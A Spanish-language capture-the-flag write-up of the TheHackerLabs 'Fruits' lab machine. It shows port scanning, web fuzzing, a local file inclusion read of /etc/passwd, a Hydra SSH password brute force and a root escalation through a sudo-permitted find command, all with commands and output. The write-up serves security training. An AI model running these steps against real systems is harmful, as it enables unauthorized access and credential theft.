

# WriteUp: Fruits | TheHackerLabs

En el presente artículo, detallo el proceso técnico que seguí para comprometer un sistema, desde la fase inicial de reconocimiento hasta la obtención de privilegios de superusuario (`root`). El objetivo es ofrecer una perspectiva educativa sobre la metodología empleada, las herramientas utilizadas y el razonamiento detrás de cada decisión.

### <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración Inicial</mark>

Mi primer paso es construir un mapa de la superficie de ataque. Para ello, mi herramienta de elección es **Nmap** (Network Mapper), un potente escáner de puertos y servicios de código abierto.

Inicié con un escaneo rápido para identificar todos los puertos TCP abiertos en el objetivo, `192.168.56.35`.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.35
```

Mi objetivo con este comando era obtener una respuesta lo más rápido posible. A continuación, desgloso los parámetros utilizados:

* **`-n`**: Deshabilita la resolución de DNS, lo que acelera el escaneo al no intentar resolver el nombre de host de la IP.
* **`-Pn`**: Omite la fase de descubrimiento de host (ping scan). Traté al objetivo como si estuviera en línea, lo cual es útil si el host bloquea las solicitudes ICMP.
* **`-sS`**: Realiza un escaneo TCP SYN (o "stealth scan"), una técnica eficiente que no completa la conexión TCP, haciéndola más discreta y rápida.
* **`-p-`**: Indica a Nmap que escanee la totalidad de los 65,535 puertos TCP.
* **`--min-rate 5000`**: Establece una tasa mínima de 5000 paquetes por segundo para maximizar la velocidad del escaneo.

Los resultados de este primer barrido fueron concisos:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Identifiqué dos puntos de entrada potenciales: el puerto **22**, correspondiente al servicio SSH (Secure Shell), y el puerto **80**, del servicio HTTP, lo que indica la presencia de un servidor web.

Con los puertos clave identificados, procedí a realizar un escaneo más profundo y específico sobre ellos para enumerar las versiones de los servicios y ejecutar scripts de reconocimiento básicos.

```bash
nmap -sVC -p22,80 192.168.56.35
```

* **`-sV`**: Sonda los puertos abiertos para determinar la información de la versión del servicio.
* **`-sC`**: Ejecuta un conjunto de scripts de Nmap por defecto (`-sC` es equivalente a `--script=default`) para obtener información adicional.
* **`-p22,80`**: Limita el escaneo únicamente a los puertos que ya había confirmado como abiertos.

Este segundo análisis me proporcionó información mucho más detallada:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:dd:1a:b6:db:a7:c7:8c:f3:03:b8:05:da:e0:51:68 (ECDSA)
|_  256 68:16:a7:3a:63:0c:8b:f6:ba:a1:ff:c0:34:e8:bf:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: P\xC3\xA1gina de Frutas
```

Los resultados confirmaron la presencia de un servidor **OpenSSH 9.2p1** y un servidor web **Apache 2.4.57** en Debian. El título de la página, "Página de Frutas", me indicó que mi siguiente paso lógico era investigar la aplicación web alojada en el puerto 80.

### <mark style="color:yellow;">Fase 2: Análisis de la Aplicación Web y Descubrimiento de Vulnerabilidades</mark>

Al navegar a `http://192.168.56.35`, me encontré con una interfaz simple.

<figure><figcaption></figcaption></figure>

La página presentaba un campo de entrada. Como prueba inicial, introduje un comando básico de Linux, `ls`, para verificar si existía una vulnerabilidad de Ejecución Remota de Comandos (RCE).

<figure><figcaption></figcaption></figure>

Observé que el comando no se ejecutó. En cambio, la cadena `ls` se reflejó en la URL como un parámetro. Este comportamiento descartó una RCE directa, pero me llevó a formular una nueva hipótesis: la aplicación podría ser vulnerable a **Inclusión Local de Ficheros (LFI)**, donde la entrada del usuario se utiliza para construir una ruta de archivo en el servidor.

Para explorar esta posibilidad, necesité enumerar los directorios y archivos del servidor web. Utilicé **Gobuster**, una herramienta de fuerza bruta de URIs. Mi primer intento se centró en descubrir directorios ocultos.

```bash
gobuster dir -u http://192.168.56.35 -w /usr/share/wordlists/dirb/big.txt
```

Este escaneo no arrojó resultados accesibles; los directorios encontrados devolvieron un código de estado `403 Forbidden`. Por lo tanto, ajusté mi estrategia para buscar archivos con extensiones específicas, como `php`, `html` y `txt`.

```bash
gobuster dir -u http://192.168.56.35 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 20
```

* **`-x php,html,txt`**: Le indiqué a Gobuster que probara cada palabra del diccionario con estas extensiones.
* **`-t 20`**: Aumenté el número de hilos para acelerar el proceso.

Este segundo intento fue exitoso y reveló un archivo de interés:

```bash
/index.html           (Status: 200) [Size: 1811]
/fruits.php           (Status: 200) [Size: 1]
```

El hallazgo de `/fruits.php` con un tamaño de solo **1 byte** fue extremadamente sospechoso. Mi hipótesis se fortaleció: este script probablemente estaba diseñado para incluir contenido basado en un parámetro GET. Si no se le pasaba el parámetro correcto, no incluía nada, resultando en una página casi vacía.

Para confirmar la vulnerabilidad LFI y descubrir el nombre del parámetro, utilicé **Wfuzz**, un fuzzer web muy versátil. Mi objetivo era probar una lista de nombres de parámetros comunes, utilizando `/etc/passwd` como el valor del fichero a incluir, ya que su existencia es una constante en sistemas Linux.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 404 --hw 0 "http://192.168.56.35/fruits.php?FUZZ=/etc/passwd"
```

* **`-w`**: Especifica la lista de palabras que Wfuzz usará para reemplazar la palabra clave `FUZZ`.
* **`--hc 404`**: Oculta las respuestas con código de estado 404 (Not Found).
* **`--hw 0`**: Oculta las respuestas con 0 palabras, filtrando así la página en blanco por defecto.

Los resultados de Wfuzz fueron concluyentes:

```
=====================================================================
ID          Response   Lines    Word      Chars     Payload
=====================================================================

000001798:   200        24 L     29 W      1128 Ch    "file"
```

El fuzzer identificó el parámetro `file`. Al construir la URL `http://192.168.56.35/fruits.php?file=/etc/passwd`, logré leer el contenido del archivo `/etc/passwd` directamente en el navegador, confirmando la vulnerabilidad de LFI.

```
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
bananaman:x:1001:1001::/home/bananaman:/bin/bash
```

El análisis de este archivo me proporcionó una lista de usuarios del sistema. Noté que el usuario `bananaman` tenía una shell configurada (`/bin/bash`), convirtiéndolo en mi objetivo principal para obtener acceso.

### <mark style="color:yellow;">Fase 3: Obtención de Acceso Inicial</mark>

Con un nombre de usuario válido (`bananaman`) y el servicio SSH abierto, mi siguiente paso fue realizar un ataque de fuerza bruta contra la contraseña del usuario. Para esta tarea, empleé **Hydra**.

```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt 192.168.56.35 ssh -s 22
```

* **`-l bananaman`**: Especifica el nombre de usuario.
* **`-P /usr/share/wordlists/rockyou.txt`**: Proporciona la ruta al diccionario de contraseñas.
* **`ssh`**: Define el protocolo a atacar.

Tras un breve periodo, Hydra tuvo éxito:

```bash
[22][ssh] host: 192.168.56.35   login: bananaman   password: celtic
```

Con la credencial `bananaman:celtic`, procedí a conectarme al servidor a través de SSH y obtuve una shell interactiva, capturando así la primera bandera.

```bash
ssh bananaman@192.168.56.35
...
bananaman@Fruits:~$ id
uid=1001(bananaman) gid=1001(bananaman) groups=1001(bananaman)
bananaman@Fruits:~$ cat user.txt 
482XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### <mark style="color:yellow;">Fase 4: Escalada de Privilegios</mark>

Una vez dentro del sistema como un usuario de bajos privilegios, mi objetivo final era escalar a `root`. El primer comando que ejecuté fue `sudo -l` para verificar mis permisos de `sudo`.

```bash
sudo -l
```

Los resultados revelaron una configuración de `sudo` insegura:

```
User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```

Se me permitía ejecutar el binario `/usr/bin/find` como superusuario (`ALL`) y sin necesidad de introducir una contraseña (`NOPASSWD`).

Consulté **GTFOBins**, una base de datos de binarios de Unix que pueden ser explotados para escalar privilegios. Como esperaba, `find` puede ser utilizado para ejecutar comandos. La técnica recomendada era la siguiente:

```bash
sudo find . -exec /bin/sh \; -quit
```

Lógica detrás de este comando:

* **`sudo find .`**: Ejecuto el comando `find` con privilegios de `root`.
* **`-exec /bin/sh \;`**: El parámetro `-exec` de `find` permite ejecutar un comando. En este caso, le instruí para que ejecutara `/bin/sh`, lo cual inicia una nueva shell. Dado que el proceso padre (`find`) se ejecuta como `root`, la shell hija hereda esos mismos privilegios.
* **`-quit`**: Este argumento detiene la ejecución de `find` inmediatamente después de la primera acción, por lo que no se realiza ninguna búsqueda real.

Ejecuté el comando en la terminal y verifiqué mi identidad:

```bash
sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Confirmé que había escalado exitosamente a `root`. Finalmente, navegué al directorio `/root` y leí la bandera final, completando así el compromiso del sistema.

```bash
# cd /root
# cat root.txt
212XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
